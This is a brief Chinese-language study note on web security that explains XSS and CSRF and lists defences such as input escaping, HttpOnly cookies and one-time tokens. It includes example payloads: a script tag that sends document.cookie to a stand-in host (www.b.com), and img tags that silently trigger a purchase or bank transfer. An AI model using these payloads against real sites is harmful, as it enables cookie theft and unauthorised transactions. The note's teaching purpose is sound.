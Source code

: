 ```yaml
---
date: '20180322'
---
```


# Web安全
## SQL注入
验证输入

## XSS (Cross Site Scripting, 跨站脚本攻击)
1. DOM Based XSS
假设网站的content内容是由query中content决定的. 将`http://www.a.com?content=<script>window.open(“www.b.com?param=”+document.cookie)</script>`这个链接通过邮件发给用户, 用户点击后会被盗取cookie信息;

2. Stored XSS
在某博客平台发表的文章中插入`<script>window.open(“www.b.com?param=”+document.cookie)</script>`

预防:
1. 字符替换用户输入的代码`<, >, &, ", ', / ....`;
2. cookie增加`http-only`限制, 禁止js操作
header头`set-Cookie: ..........; HttpOnly`

## CSRF (Cross-site request forgery, 跨站请求伪造)
CSRF 是借用了当前操作者的权限来偷偷地完成某个操作，而不是拿到用户的信息。

![csrf](../../assets/csrf.jpg)

例1:
一个用户已经登录了http://buy.com，在选择商品时，突然收到一封邮件，而这封邮件正文有这么一行代码`<img src="http://buy.com/pay?touid=999&money=100"/>`，他访问了邮件之后，其实就已经完成了购买。

例2:
银行网站A，它以GET请求来完成银行转账的操作，如：`http://www.mybank.com/Transfer.php?toBankId=11&money=1000`
危险网站B，它里面有一段HTML的代码如下：
`<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>`
首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......

**CSRF攻击是源于WEB的隐式身份验证机制！WEB的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的！**

预防:
1. 涉及现金交易的肯定要输入密码或者指纹
2. 敏感接口使用POST而不是GET
3. one-Time Tokens(不同的表单包含一个不同的伪随机值)
>必须小心操作以确保CSRF保护措施不会影响选项卡式的浏览或者利用多个浏览器窗口浏览一个站点。
4. 验证码